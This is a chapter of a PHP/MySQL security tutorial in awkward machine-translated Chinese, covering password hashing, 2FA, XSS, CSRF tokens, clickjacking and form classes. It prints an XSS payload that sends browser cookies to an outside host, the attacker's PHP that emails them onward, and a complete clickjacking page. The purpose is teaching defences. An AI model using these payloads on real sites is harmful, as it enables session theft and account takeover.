




第六章


安全性、表单和错误处理

破译艺术最独特的特征之一是每个人都有一种强烈的信念，即使对它不太熟悉，他也能构造出一个别人无法破译的密码。

查尔斯·巴贝奇(1864 年)

本章建立在前一章的结构相关主题的基础上，更详细地讨论了安全性、表单、登录和注销以及错误处理。我首先从总体上回顾 PHP 安全性，然后通过具体的编码示例来具体讨论。

PHP 安全性概述

我首先回顾了一些重要的 PHP 安全问题，并给出了一些断章取义的代码示例。稍后，当我展示更完整的表单处理和登录示例时，您将看到如何在实际的应用程序中处理这些安全问题。

太多的 PHP 书籍和文章以简单的方式处理这些安全问题，可能是为了避免变得太复杂。或者，也许只是太少的作家明白正确的做事方式。无论如何，我不会在那个组里。我将只介绍可用的最佳方法，如果按照规定使用，将使您的应用程序免受所有最常用的安全攻击。

电脑必须被保护起来

在这一节中，我将讨论一个压倒一切的安全弱点:如果攻击者可以访问您的计算机，也许是通过以某种与您的 PHP/MySQL 应用程序的安全性无关的方式安装可执行程序(例如，通过电子邮件分发的恶意软件)，那么一切都完了。PHP 的安全性通常依赖于浏览器 cookiess 的安全性，所有重要的会话 ID 都保存在 cookie 中，一旦它们被泄露，您的会话就很容易被劫持。

例如，Chrome 浏览器将其 cookies 保存在 SQLite 数据库中，您可以使用 SQLite 数据库浏览器进行查询，如[图 6-1](#Fig1) 所示，其中显示了一个会话 ID。请注意，尽管它是一个会话 cookie，并且应该在浏览器退出时被删除，但它仍然保存在一个文件中。Safari 和 Internet Explorer 做得稍微好一点，因为它们将会话 cookie 保存在浏览器的内存中，但您仍然可以轻松查看持久 cookie。



[图 6-1](#_Fig1) 。用 SQLite 数据库浏览器访问 Chrome cookie

即使 cookies 没有被访问，在您的计算机上执行的恶意软件也可以做其他事情来破坏应用程序的安全性，例如，捕获击键并将它们发送到攻击者的网站。因此，不言而喻，我在这里提出的关于保护 PHP/MySQL 应用程序的所有建议都假设用户的计算机没有被入侵。

当然，服务器也不能妥协。如果是这样，应用程序代码可能被恶意修改，MySQL 数据库也可能被破解。

密码强度

黑客可以通过两种基本方式从前门进入系统，即在登录表单中输入正确的用户 ID 和密码。

*   *窃取* : 在入室行窃或提钱包后找到写在纸上的用户 ID 和密码，或强行从用户处提取。
*   *猜测* : 尝试数百万，甚至数十亿个密码来找到一个有效的。

如果密码被盗，再强也没用。防止窃取也超出了 PHP 应用程序的范围，因为这是用户的责任。

好的密码确实让*猜测*更加困难。一旦黑客得到散列密码列表(见下一节)并开始运行一个破解程序，简单的将首先倒下。一个好的密码应该在百分之几没有被破解的地方。黑客也可以通过登录页面尝试猜测，但这要慢得多，而且不太可能产生超过几个容易猜到的密码。

根据 2013 年 5 月的一篇文章*Ars Technica*(`http://arstechnica.com/security/2013/05/how-crackers-make-minced-meat-out-of-your-passwords/`),黑客每秒钟可以测试几千个密码；如果哈希使用快速算法，这个数字会上升到每秒数十亿。以这样的速度，所有可能的六字符密码都可以在几分钟内被破解。接下来，可以尝试字典单词，来自两种字典:几种语言的普通字典，以及常用密码列表，最初是通过破解以纯文本形式存储密码的网站获得的。然后，黑客可以尝试字典单词的组合。因为如此多的密码是脆弱的，而且破解速度如此之快(显卡上的并行处理)，所以 90%的哈希已知的密码在几个小时内被破解并不罕见。

我将描述减缓破解的技术，但是，随着计算机，尤其是显卡越来越快，这是一场永无止境的军备竞赛，所以好的密码是必不可少的。

一个好的密码既长又没有可猜测的模式。用数字和符号代替字母(p@$$w0rd)和使用基于键盘布局的模式(qetuoljgda)都不符合标准。像 XzC^CRJ*38ly 这样的密码是一个好密码(它是由 LastPass 密码管理器生成的)。

作为一名 PHP 应用程序程序员，你的职责首先是不要通过限制密码的长度或密码可以包含的字符种类来禁止好的密码。令人惊讶的是，我见过一些网站将密码限制在八个或更少的字母和数字字符，这几乎可以保证他们可以被破解。事实上，长度限制表明密码甚至没有被散列，而是作为纯文本存储在固定宽度的数据库列中。

你的第二个责任是鼓励，甚至要求一个像样的密码。至少，您应该在输入密码的表单字段旁边放置某种指示器，以指示它有多好。这里就不展示代码了(你可以在 Apress 网站的源代码/下载区`www.apress.com`找到)，而是简短的 JavaScript 函数

```php
passwordStrength(password, username)
```

以短语形式返回密码的强度，可以是“太短”、“弱”、“好”和“强”(username 参数是这样的，任何等于 username 的密码都将得到弱强度。)稍后，在“表单”一节中，我将展示如何在用户输入时在表单上实时显示密码的强度。

由该函数计算的强度很强并不意味着它一定很强，因为该函数不进行任何字典查找。这只是意味着它有一个合理的字母，数字和符号的集合。然而，基于在键盘上来回移动、每隔一个键跳过一次的密码 qetuoljgda 被评为弱密码，而 LastPass 生成的密码 XzC^CRJ*38ly 被评为强密码。可以肯定的是，任何被评为弱的东西都是绝对弱的。

您还可以考虑两个更具侵入性的选项。

*   生成所有密码，而不是允许用户自己设置密码。这样做的问题是，你产生的强词没有一个能被记住，所以它们必须被写下来。
*   要求密码的等级至少是好的，甚至可能是强的。

用户的最佳实践是使用 LastPass 之类的密码管理器(也有其他可用的)，让它生成密码，用户不必记住密码，因为密码管理器会记住密码并将其键入登录表单。正如我所说的，这超出了 PHP 开发人员的范围，但至少您可以鼓励用户使用密码管理器。确保流行的管理器使用您的登录和密码更改表单。

哈希密码

这是许多 PHP 程序员犯严重错误的地方，不完全是他们的错，因为我看过的每本 PHP 书籍都推荐了错误的方法。正确的方法有三个要素。

*   哈希算法必须至少在未来几十年内无法逆转，才能迫使破解者猜测。大多数书都对这一部分，建议像 MD5 或 SHA-1。
*   算法必须很慢。大多数散列函数都是为一般的加密用途而设计的，并且自然地，被设计成运行速度很快。但是，想想那些使用配有 25 块最先进显卡的计算机进行并行处理的黑客，你会想要一台运行缓慢的计算机。
*   密码必须用一种盐来加盐，这种盐对于每个哈希都是唯一的。

salt 是一个随机字符序列，在哈希之前与纯文本密码组合在一起。由于每个哈希都不相同，所以它必须存储在密码旁边，以便在对输入到密码表单中的密码进行哈希处理以查看是否匹配时可用。在没有盐的情况下，一个拥有 25000 个散列密码列表的黑客可以用 25000 个密码中的任何一个来测试每个猜测。但是，如果 25，000 个中的每一个都有不同的盐，那么每个猜测(用盐散列)都可以用那个盐的散列来测试。你刚刚增加了 25，000 倍的工作量。

有了安全、缓慢的散列算法和每个密码单独的 salt，您已经尽了最大努力。破解 6 个字符的弱密码和前几轮字典查找需要很长时间，任何像样的 12 个字符的密码都不会被破解。

最好的 PHP 密码散列器是 Phpass，它包含了所有三个基本元素，你可以从`openwall.com/phpass`免费下载。在`openwall.com/articles/PHP-Users-Passwords`有一篇关于它如何工作以及如何使用的优秀文章，我认为这是任何 PHP 应用程序开发人员的必读之作。

在“用户表和密码管理”一节中，我展示了集成到登录过程中的 Phpass 你会发现它并不比其他方法更难使用，所以没有理由不使用它。

存储散列密码

Phpass 的输出是一个包含 salt 和 hash 的 60 个字符的字符串，因此您可以将它与用户 ID、电子邮件地址和密码管理所需的其他一些列一起存储到 MySQL 用户表中。(详细信息在“用户表”一节中。))

您可能认为密码应该放在它们自己的表中，或者放在数据库之外的文件中，或者其他地方，但是这些都没有意义。与 salting 和 hashing 不同，salt/hash 的存储依赖于操作系统、Apache、MySQL 甚至备份的安全性，这些备份可能在夜间运营商的汽车后备箱中，在服务器机房后面的垃圾箱中(坏掉的磁盘驱动器所在的地方)，在一些有问题的云备份设施上，或者谁知道在哪里。换句话说，黑客拿到你的密码表的机会很大。

也就是说，您仍然应该尽可能地保护数据库，因为除了盐/散列之外，对于窃贼来说，数据库中可能还有更多有价值的信息，例如信用卡账号。

假设 salt/hash 将在脸书上发布，这是考虑密码安全性的一个好方法。你想做什么，以确保，即使有所有的盐/哈希，黑客不能进入。使用 Phpass 是解决方案的一部分，但是您还可以做更多的事情。

双因素认证

双因素身份认证(2FA)意味着密码是一个因素，物理设备是第二个因素——移动电话或插入 USB 端口的专用硬件设备，如 YubiKey。这个想法是，登录需要密码和通过短信发送到手机的随机码，或者由硬件设备生成的密码。你*知道的*，加上你*拥有的*。中国的黑客不会有物理设备，所以即使有世界上最快的破解计算机，也无法侵入无线运营商，这实际上是可能的，或者破解硬件设备，这可能是不可能的。

第一阶段，提供您的用户 ID 和密码，我称之为 2FA 第一阶段。我们在 2FA 阶段 2 中使用第二个因素。

2FA 的另一个优势是，如果你丢失了物理设备，你*知道*它不见了，尤其是如果它是一部电话。你无法知道你的密码是否被猜到了。

截至 2013 年春季，一些大型网站开始使用 2FA(也称为两步认证)，如谷歌、Dropbox、LastPass 和 Twitter。正如我在本章后面所展示的，它非常容易实现，并且增加了大量额外的安全性，所以这是你绝对应该考虑的事情。你的老板或客户可能会拒绝这个想法，但至少作为这本书的读者，你已经看到了希望之乡。

我将在“发送认证码”一节中展示代码，它使用 Twilio 发送随机代码(语音或文本)。还有很多其他类似的服务；我选择 Twilio 只是因为它允许开发人员免费使用它，它有一个可以工作的 PHP API，它的例子很全面，并且它可以处理语音和 SMS(短消息服务，更好的说法是“发短信”)。我还展示了使用 YubiKey 的示例代码。

您可能不想在每次登录时都使用完整的 2FA 第 2 阶段。我将向您展示如何使用一个安全的 cookie 来存储一个*验证令牌*,以便在每台计算机上每 30 天(或者您选择的任何时间)只需使用一次完整的 2FA 阶段 2。在这 30 天的时间里，这是一个半因素，因为除了密码之外，黑客还必须获得访问 cookie 的权限，而且，如果您使用 SSL(安全套接字层)，您应该使用 SSL，访问 cookie 需要物理访问计算机，而黑客通常没有这种权限。

SQL 注入

我在这里提到 SQL 注入只是为了使 PHP 安全问题的列表完整。正如我在第 5 章的[中解释的，只要 SQL 语句包含用户提供的值，就使用参数化查询完全消除了 SQL 注入的可能性。](5.html)

跨站点脚本

跨站脚本，或 XSS，有点像 SQL 注入，但它是一种将 HTML 和/或 JavaScript 注入网页的方法，这样就可以发出未经授权的请求。要了解它是如何工作的，请看清单 6-1 中的表单，它只有一个可以输入文本的字段。如果之前已经输入了文本，它会通过文本字段的`value`属性显示在表单上。

***[清单 6-1](#_list1)*** 。显示先前输入值的简单表单

```php
class MyPage extends Page {

protected function request() {
    $val = isset($_POST['field']) ? $_POST['field'] : '';
    echo <<<EOT
    <form action='{$_SERVER['PHP_SELF']}' method=post
      accept-charset=UTF-8>
    <input type=text name=field size=115 value='$val'>
    <input type=submit name=action_go value=Submit>
    </form>
EOT;
}

protected function action_go() {
    // ... code to save data ...
    $this->message('Saved', true);
}

}

$page = new MyPage('XSS Example', false);
$page->go();
```

在一个表单中显示先前输入的值是很常见的，我在第 4 章的许多例子中就是这么做的。

现在，假设一个恶意用户输入了[图 6-2](#Fig2) 所示的数据。


[图 6-2](#_Fig2) 。恶意数据进入表单

有了这个条目，单击按钮后，PHP 编写的表单域就变成了(添加了换行符)

```php
<input type=text name=field size=115 value=''>
<script>window.location=" http://basepath.com/retryaction.php ?
data=" + document.cookie;</script><x ''>
```

并且 JavaScript 被执行。它会将所有的 cookie(`document.cookie`)作为参数发送到 web 页面`retryaction.php`，攻击者已经将其编码为

```php
mail(' cookie@basepath.com ', 'cookie', $_REQUEST['data']);
echo <<<EOT
Sorry, the web server was unable to process the command.
Please try again.
EOT;
```

它通过电子邮件将 cookies 发送给攻击者，然后向用户显示一条消息，用户认为服务器出现了某种问题。(当然有——防 XSS 失败！)

在我的例子中，没有危险，因为“恶意”用户也是授权用户。但是，假设这是一个允许用户发布消息供他人阅读的社交网站。一条消息可能包含与示例格式类似的 JavaScript，然后该 JavaScript 将由阅读该消息的每个人执行，可能有数百人。他们甚至不需要点击任何东西——仅仅查看消息就足够了。攻击者现在拥有该站点所有人的 cookies。

显然，XSS 是相当认真的。但是，通过确保写入浏览器的任何用户提供的值都正确转义了 HTML 字符，您可以从应用程序中完全消除它。真正重要的是`<`，但是避开它们是个好主意，即使只是为了表面上的原因。

这就是为什么在我之前的所有例子中，我总是使用`htmlspecialchars`函数来处理用户提供的写入浏览器的任何内容。正如我在第四章中展示的，我使用了便利函数。

```php
function htmspecial($s) {
    return htmlspecialchars($s, ENT_QUOTES, 'UTF-8');
}
```

所以，如果你努力使用`htmlspecialchars`，你就可以免受 XSS 的攻击。如果您确实希望允许用户提供带格式的文本，要么使用 Markdown ( [第 2 章](2.html))或者，如果您必须允许 HTML，对输入进行完整的解析，这样您就可以过滤掉任何恶意的内容，比如 JavaScript、按钮或表单。

最近，一些浏览器已经实现了部分 XSS 保护，方法是检查请求中是否出现了任何已执行的脚本，在前面的示例中就是这种情况，因为脚本出现在 POST 数据中。这种保护(在谷歌 Chrome 中称为 XSS 审计员)是有帮助的，但它不是一个完整的解决方案，所以继续使用`htmlspecialchars`。

跨站请求伪造

跨站请求伪造(CSRF)与 XSS 完全不同，甚至没有以同样的方式缩写“跨站”。XSS 攻击包括将脚本注入到应用程序生成的 HTML 页面中。CSRF 涉及一个完全不同的应用程序，它试图代表一个没有怀疑但经过授权的用户向您的应用程序发送请求。

CSRF 的攻击可能是这样的:攻击者使用你的应用程序`fluffywarm.com`，购买一些羊毛手套，或者你正在出售的任何东西，了解它是如何工作的，并捕获一些样本 HTML 页面。然后，他或她建立了一个诱人的网站`cheapfluffy.com`，以很低的折扣出售羊毛围巾。嗜羊毛成瘾的受害者需要一些蓬松温暖的东西，就去攻击者的网站浏览，但那里看似无害的购物页面却做了一些额外的事情:他们使用 JavaScript 向`fluffywarm.com`发送请求，完成授权，因为用户仍然登录到`fluffywarm.com`并拥有适当的 cookie。几天后，攻击者得到一些手套作为“礼物”

XSS 捎带上了属于你的应用程序的一个页面；CSRF 完全使用另一个网站上的代码来访问您的应用程序。在这两种情况下，似乎是发起访问的用户得到了授权，但并不知道幕后发生了什么。

没有一种 XSS 防御方法对 CSRF 有效，因为恶意页面来自攻击者的站点，而不是您的站点，而且您无法控制那里的页面是如何编码的。起作用的是确保对应用程序的任何请求都来自应用程序生成的 HTML 页面，而不是来自另一个站点。

防止 CSRF 攻击最常见、最有效的方法是嵌入一个秘密代码，我称之为 csrftoken *，*对每个会话、每个表单和每个按钮都是唯一的。任何进来的请求都必须有那个代码，否则就会被拒绝。来自另一个站点的脚本无法获得代码，就像它无法获得会话一样，因为浏览器强制执行同源策略(SOP ),阻止一个站点的代码读取另一个站点的输出。(XSS 的攻击可以得到它，但你可以阻止 XSS，正如我解释的那样，所以这不会发生。)

csrftoken 可以由添加到`Page::start_session`函数中的代码生成，我在第 5 章的[的“PHP 会话”一节中介绍了这个函数。](5.html)

```php
public function start_session() {
    ini_set('session.use_only_cookies', TRUE);
    ini_set('session.use_trans_sid', FALSE);
    session_name(SESSION_NAME);
    session_start();
    if (empty($_SESSION['csrftoken']))
        $_SESSION['csrftoken'] =
          bin2hex(openssl_random_pseudo_bytes(8));
}
```

每个表单都必须在隐藏字段中包含该代码。我将在本章后面展示一个自动处理这个问题的`Form`类。它有效地把

```php
<input type=hidden name=csrftoken value={$_SESSION['csrftoken']}>
```

变成各种形态。清单 5-23 中的[所示的`Page::perform_action`方法在调用动作之前添加了代码来检查 csrftoken:](#list23)

```php
if (!$this->security_check())
    throw new \Exception('Invalid form');
```

方法`Page::security_check`是

```php
protected function security_check() {
    if (isset($_SESSION) && (!isset($_POST['csrftoken']) ||
      $_POST['csrftoken'] != $_SESSION['csrftoken']))
        return false;
    return true;
}
```

与会话 ID 一样，csrftoken 的保密非常重要，这意味着它不应该出现在浏览器的 URL 字段中，因此所有包含它的请求都必须使用 POST 而不是 GET。这使得将请求编码为按钮有点困难。如果你用最简单的方法编码这个按钮

```php
<button type=button onclick='window.location=
  "member.php?csrftoken={$_SESSION['csrftoken']}";'>Go</button>
```

csrftoken 出现在浏览器中，如[图 6-3](#Fig3) 所示。


[图 6-3](#_Fig3) 。csrftoken 出现在浏览器(坏)

使用 GET 的另一个地方是在公共代码中，通过在输出中放置一个头，在一些处理之后将用户转移到不同的页面。

```php
header("Location:member.php?csrftoken={$_SESSION['csrftoken']}");
```

虽然攻击者可能没有注意到你，但是出现在浏览器中的任何内容都很容易被粘贴到论坛消息或电子邮件中，这不是处理秘密的方法。按钮和页面传输应该使用 POST，我将在“用 POST 提交请求”一节中解释如何做

有时 PHP 程序员会尝试其他技术来消除 CSRF 攻击，比如检查 referrer(产生请求页面的站点)甚至客户端的 IP 地址。然而，第一个是无效的，因为推荐人很容易被伪造，第二个是不切实际的，因为 IP 地址并不总是可用的，有时过于动态而不可靠。您只需要一个 csrftoken。

点击劫持

点击劫持不涉及 XSS 或 CSRF 的攻击；提交到您的应用程序的请求是完全合法的，您生成的 web 页面上的任何内容都没有以任何方式被修改。被“劫持”的是一个按钮点击。

它的工作原理是这样的:攻击者在你的网站上找到一个页面，只需点击一个按钮就可以实现想要的动作，比如图 6-4 中的账户页面，有一个禁用 2FA 的按钮。



[图 6-4](#_Fig4) 。带有禁用 2FA 按钮的表单

然后攻击者精心设计另一个页面，在与 Disable 2FA 按钮相同的位置放置一个诱人的按钮，如图[图 6-5](#Fig5) 所示。


[图 6-5](#_Fig5) 。竞赛参赛页面覆盖账号页面

[图 6-6](#Fig6) 显示了重叠的两个页面，所以你可以看到输入比赛和禁用 2FA 按钮是重合的。


[图 6-6](#_Fig6) 。竞赛参赛页面覆盖的帐户页面

诀窍是:竞赛入口页面也加载帐户页面，但是是透明的`iframe`，使它不可见，但是仍然是活动的，因为它在上面。当用户认为他或她点击进入比赛时，实际点击进入顶部的透明页面，这禁用了 2FA。由于请求是针对合法页面的，并且用户已经登录，因此攻击成功。当然，只有在进入大赛的同时登录你的应用的用户才会受到影响，但是如果你的应用和大赛都非常受欢迎，那么会有几十万的用户。如果攻击者以某种方式获得了密码，没有 2FA，他或她就可以闯入。

竞赛页面的代码非常简单。它从我的开发系统(`localhost`)加载帐户页面，但实际上它将从`fr-butterfly.org`加载，或者从俱乐部的域加载。它显示在[清单 6-2](#list2) 中，你会喜欢自己弄清楚它。(提示:诡计以粗体显示。)就是这么简单，好吓人。

***[清单 6-2](#_list2)*** 。点击劫持比赛-参赛页面的 HTML】

```php
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset=utf-8>
<title>Contest Entry</title>
</head>
<body>
<div style=' z-index:2 ' position:absolute; top:0; left:0;
  width:70%; height:70%'>
<iframe src=' http://localhost/EPMADD/06-PHP/account.php '
style=' opacity:0 ' width=100% height=100%></iframe>
</div>
<div style=' z-index:1 ' position:absolute; top:0; left:0;
  width:70%; height:70%; background-color:yellow;'>
<div style='margin-left: 10px;'>
<p style='font-size:30px; font-style:italic;'>
Movie Contest Promotion
<p style='font-size: 18px;'>
To enter the contest and receive
<br>
two free movie tickets, click the
<br>
button below.
<br>
(We already have your email.)
<p style='position:absolute; top:272px; left:20px ;'>
<button>Enter Contest</button>
</div>
</div>
</body>
</html>
```

幸运的是，有一个简单的方法可以防止点击劫持:在任何 HTML 中总是包含一个`X-Frame-Options`头。

```php

    header('X-Frame-Options: deny');
```

该标题阻止浏览器将页面加载到`iframe`中。`Page`类在每个页面上发布这个头，因为我的任何应用程序都不需要使用`iframe`。如果你使用它们，而不是`deny`,你可以指定`sameorigin`,这同样安全，因为它将`iframe`限制在与页面本身相同的原点。

当我用这个随账户页面一起发送的标题重新加载竞赛页面时，竞赛表格([图 6-5](#Fig5) )出现了，但是`iframe`里什么也没有。在浏览器中查看 JavaScript 控制台显示了图 6-7 中的[消息。禁止点击劫持！](#Fig7)



[图 6-7](#_Fig7) 。X-Frame-Options 标题防止点击劫持

逆转 CSS 攻击

没有任何反向 CSS 攻击，我甚至不知道“反向 CSS”是什么意思。我编出来是为了表明一个观点:我们有一个威胁类型的动物园，SQL 注入，XSS，CSRF，点击劫持。这就是未来的全部吗？我对此表示怀疑。一年、两年或十年后，肯定会有一些全新的、意想不到的东西出现。毕竟，clickjacking 在`opacity:0`属性出现之前是不可能的，而 HTML 正一如既往地被积极开发，那么他们下一步会想到什么呢？

你最好让自己跟上新的威胁，逆向 CSS，或任何他们可能被称为。一个定期检查的好网站是`owasp.org` `，开放 web 应用安全项目。(这些都是坚韧的人；甚至他们的信息主页也使用 SSL。)`

 `如果有人用反向 CSS 闯入你的网站，记住我是第一个警告你的人。

使用帖子提交请求

用 POST 而不是 GET 提交请求使得攻击者更难侵入，因为必须使用 JavaScript，而像在`image src`属性中编写请求这样的简单技巧是行不通的。POST 还可以防止 csrftoken 之类的数据意外地通过电子邮件发送或发布到社交网站上。

唯一应该使用 GET 的请求是那些除了显示页面之外不做任何事情的请求。事实上，HTTP 的官方规范 RFC 2612 说“约定已经建立，GET 和 HEAD 方法不应该具有采取除检索之外的动作的意义。”不是不允许，只是劝阻。但你应该表现得好像这是不允许的。

对表单使用 POST 很容易，但对按钮和页面传输就不那么容易了。就是用 PHP 不容易。使用 JavaScript，方法是动态创建一个表单，将其插入到网页中，然后提交。(用户不会看到。)这听起来很可疑，像是 XSS 的攻击，但这是页面设计的一部分，没有任何恶意。

真正的工作由 JavaScript 函数`transfer`完成，如[清单 6-3](#list3) 所示(基于 Rakesh Pai 在`stackoverflow.com/questions/133925`的代码)。

***[清单 6-3](#_list3)*** 。JavaScript `Transfer`函数

```php
function transfer(url, params) {
    var form = document.createElement("form");
    form.setAttribute("method", 'post');
    form.setAttribute("action", url);
    for(var key in params)
        if (params.hasOwnProperty(key))
            appendHiddenField(form, key, params[key]);
    appendHiddenField(form, 'csrftoken', csrftoken );
    $(document).ready(function () {
        document.body.appendChild(form);
        form.submit();
    });
}

function appendHiddenField(form, key, val) {
    var hiddenField = document.createElement("input");
    hiddenField.setAttribute("type", "hidden");
    hiddenField.setAttribute("name", key);
    hiddenField.setAttribute("value", val);
    form.appendChild(hiddenField);
}
```

下面是`transfer`的工作方式:创建一个表单，带有`method`和`action`属性，类似于我多次展示过的已经用 HTML 硬编码的属性。然后为`params`数组的每个元素创建一个隐藏字段并附加到表单中，同时为 csrftoken 创建一个隐藏字段。最后，jQuery 用于在页面加载后提交表单。等待的原因是，在那之前，不能保证存在一个 body 元素来附加表单。

csrftoken 通过添加到[清单 5-26](#list26) 中显示的`top.php`文件中的代码(在`<script>`元素中)在每页的开头设置为同名 JavaScript 变量的值:

```php
if (isset($_SESSION['csrftoken']))
    echo "var csrftoken = '{$_SESSION['csrftoken']}';";
else
    echo "var csrftoken = '';";
```

csrftoken 变量的引用在[清单 6-3](#list3) 中以粗体显示。(这是一种将 PHP 数据传递给 JavaScript 的简单方法。)

使用`transfer`功能，按钮可以编码如下:

```php
<button type=button onclick="transfer(loginverify.php',
  {'action_start': '1'});">Go</button>
```

PHP 方法`Page::transfer`包装了 JavaScript 函数`transfer`。它使得将用户转移到不同的页面变得容易，这代替了编写位置标题，并且具有额外的优点，即它可以在任何时候被调用，而不仅仅是在任何输出被写入浏览器之前，这是标题的一个要求。[清单 6-4](#list4) 显示了`Page::transfer`。方法`Page::array_to_js`从 PHP 数组中准备一个字符串形式的 JavaScript 数组。对`Page::top`的调用确保 JavaScript `transfer`函数所需的 JavaScript 和 jQuery 代码已经包含在内。(就一次，因为`Page::top`中的`require_once`语句，如[第五章](5.html)所示。)

***[清单 6-4](#_list4)*** 。`Page::transfer`方法

```php
protected function transfer($path, $params = null) {
    if (is_null($path))
        $path = $_SERVER['PHP_SELF'];
    $x = $this->array_to_js($params);
    $this->top();
    echo <<<EOT
    <script>
    transfer('$path', $x);
    </script>
EOT;
}

private function array_to_js($a) {
    if (empty($a))
        $x = '{}';
    else {
        $x = '';
        foreach ($a as $k => $v)
            $x .= ",'$k': '$v'";
        $x = '{' . substr($x, 1) . '}';
    }
    return $x;
}
```

类似地，清单 6-5 中[的`Page::button`输出一个 POST 按钮，遵循前面显示的示例按钮 HTML。](#list5)

***[清单 6-5](#_list5)*** 。`Page::button`方法

```php
protected function button($label, $params, $path = null) {
    if (is_null($path))
        $path = $_SERVER['PHP_SELF'];
    if (strpos($path, '?') !== false)
        die('illegal parameter in button() action');
    $x = $this->array_to_js($params);
    echo "<button class=button onclick=\"
      transfer('$path', $x);\">$label</button>";
}
```

检查路径中的`?`是为了防止意外地将参数直接放入 URL 中，这是我出于习惯偶尔会犯的错误。

有了这两种方法，就不再需要在应用程序内部使用 GET for 请求了。您可能仍然需要它来处理外部请求，对其他应用程序和 web 站点的请求，这些应用程序和 web 站点没有被编码为以 POST 数据的形式查找它们的参数，但是您对此无能为力。

当然，我还应该提到，除非你也使用 SSL (https ),否则 POST 没有多少安全性，SSL 可以加密进出服务器的所有数据，如果做得好，还可以确保你的用户在与你的网站对话，而不是冒名顶替(所谓的中间人攻击)。您可以通过在服务器上设置网站来启用 SSL 在 PHP 中你不用做任何特别的事情。

安全摘要

下面是一个快速回顾，你需要做些什么来使你的 PHP/MySQL 应用程序免受恶意攻击:

*   始终允许并考虑要求强密码。
*   用 Phpass 散列密码。
*   将哈希密码存储在数据库中，并尽可能加以保护。
*   用 2FA。
*   防止参数化查询的 SQL 注入。
*   通过转义所有源自用户的输出来防止 XSS。
*   使用 csrftoken 阻止 CSRF。
*   防止使用`X-Frame-Options`割台进行点击劫持。
*   使用 POST 而不是 GET。
*   使用 SSL。

在这一章的剩余部分，我将涵盖我列出的所有我没有解释过的内容。

如果你做了所有这些事情，没有人会从后门、前门或侧门进来，也没有人会伪造任何请求。他们能做的就是偷用户的电脑，或者对用户使用肉体力量，这两种都是你控制不了的。

至少在逆向 CSS 发明之前你是安全的。

表格

在本书中，我一直在各种例子中展示 HTML 表单，但是由于 csrftoken 的必要性、防止 XSS 攻击的转义以及处理一对多关系的潜在复杂性([第 5 章](5.html))，它们实在太繁琐了，无法每次都从头开始编码，而且，如果您忘记了 csrftoken 或对`htmlspecialchars`的调用，您就有一个安全漏洞。因此，我使用了一个`Form`类，该类包含表单可以包含的许多元素的方法，您可以根据需要轻松地添加额外的方法。

基本表单类

清单 6-6 展示了`Form`类的一部分。

***[清单 6-6](#_list6)*** 。`Form`类的一部分

```php
class Form {

protected $err_flds;
protected $vals;

function start($vals = null, $action = null) {
    $this->err_flds = array();
    $this->vals = $vals;
    if (is_null($action))
        $action = $_SERVER['PHP_SELF'];
    echo "<form action='$action' method=post
      accept-charset=UTF-8>";
    if (isset($_SESSION['csrftoken']))
        $this->hidden('csrftoken', $_SESSION['csrftoken']);
}

function end() {
    echo "</form>";
}

function hidden($fld, $v) {
    $v = htmlspecial($v);
    echo "<input id=$fld type=hidden name=$fld value='$v'>";
}

function errors($err_flds) {
    $this->err_flds = $err_flds;
}

}
```

`Form::start`开始表单并输出开始的`<form ...>`标签，带有两个可选参数。第一个是要显示的值的数组，按字段名索引。通常，它是来自另一个表单提交的`$_POST`数组或从数据库中检索的一行。第二个参数是动作，但是几乎总是希望回到同一个文件。请注意，csrftoken 放在每个表单中。

`Form::end`完成表格。

稍后我会展示一个例子，但是`err_flds`数组保存了一个包含有错误的字段名称的数组，所以输出表单字段的各种方法可以突出显示它们。如果有错误，并且您已经建立了一个错误字段的数组，那么您可以用`Form::errors`来设置该数组。(你用`Page::message`显示错误信息本身。)

文本字段、标签和按钮

`Form`类也有最常见的表单字段的方法:文本字段、复选框、下拉菜单等等。它们中的每一个在设计时都考虑了三件事。

*   显示的每个值都由`htmlspecial`(调用`htmlspecialchars`)过滤，以防止 XSS 攻击和页面变形。
*   如果字段在`err_flds`数组中，标签会高亮显示。
*   提交后，字段值被放入由字段名索引的`$_POST`数组中，这样它就可以直接插入到数据库中，而无需进一步处理。(未选中的复选框是个例外，我会解释的。)

考虑到这些常见的属性，字段方法非常简单。在[清单 6-7](#list7) 中，首先出现的是`Form::text`、`Form::label`(它使用的)和`Form::button`。

***[清单 6-7](#_list7)*** 。`Form::text`、`Form::label`、`Form::button`和`Form::hspace`方法

```php
function text($fld, $label = null, $len = 50,
  $placeholder = '', $break = true, $password = false) {
     if ($password)
        $type = 'password';
    else
        $type = 'text';
    $this->label($fld, $label, $break);
    $v = isset($this->vals[$fld]) ?
      htmlspecial($this->vals[$fld]) : '';
    echo "<input id=$fld type=$type size=$len name=$fld
      value='$v' placeholder='$placeholder'>";
}

function label($fld, $label, $break) {
    if (is_null($label))
        $label = $fld;
    if ($break)
        echo '<p class=label>';
    else
        $this->hspace();
    $st = isset($this->err_flds[$fld]) ?
      'style="color:red;"' : '';
    echo "<label class=label for=$fld $st>$label</label>";
}

function button($fld, $label = null, $break = true) {
    if ($break)
        echo '<p class=label>';
    echo "<input id=$fld class=button type=submit name=$fld
      value='$label'>";
}

function hspace($ems = 1) {
    echo "<span style='margin-left:{$ems}em;'></span>";
}
```

这些小方法的作用应该很明显。注意，如果字段在`err_flds`数组中，标签是红色的。

有了这么多的表单类，图 5-15 所示的成员表单，它是用清单 5-19 中的原始 HTML 编码的，可以重新编码以使用表单类，如清单 6-8 中的[所示。](#list8)

***[清单 6-8](#_list8)*** 。修订了`show_form`方法，基于[清单 5-19](#list19)

```php
protected function show_form($vals) {
    $f = new Form();
    $f->start($vals);
    $f->hidden('member_id', $vals['member_id']);
    $f->text('last', 'Last Name:', 30, 'Last Name');
    $f->text('first', 'First:', 20, 'First Name', false);
    $f->text('street', 'Street:', 50, 'Street');
    $f->text('city', 'City:', 20, 'City');
    $f->text('state', 'State:', 10, 'State', false);
    $f->button('action_save', 'Save');
    $f->end();
}
```

[图 6-8](#Fig8) 显示了改进后的形式。如果你把它与图 5-15 比较，你可以看到标签和布局更好。除此之外，它的执行是相同的，并且像所有由`Form`类生成的表单一样，它包含所需的 csrftoken。


[图 6-8](#_Fig8) 。改进的成员形式

外键

如果您还记得在[第 5 章](5.html)中如何从“多”方处理一对多关系，那么使用了两个字段:一个隐藏字段用于保存外键(例如`specialty_id`)，一个可见的只读字段用于保存外键的某种表示，这样用户就可以知道引用的是什么(例如专业`name`)。有一个清除按钮用于清除外键，还有一个选择按钮用于选择被引用表中的一行。带有这些字段的表单出现在图 5-18 中，一个更漂亮的版本出现在[图 6-9](#Fig9) 中。


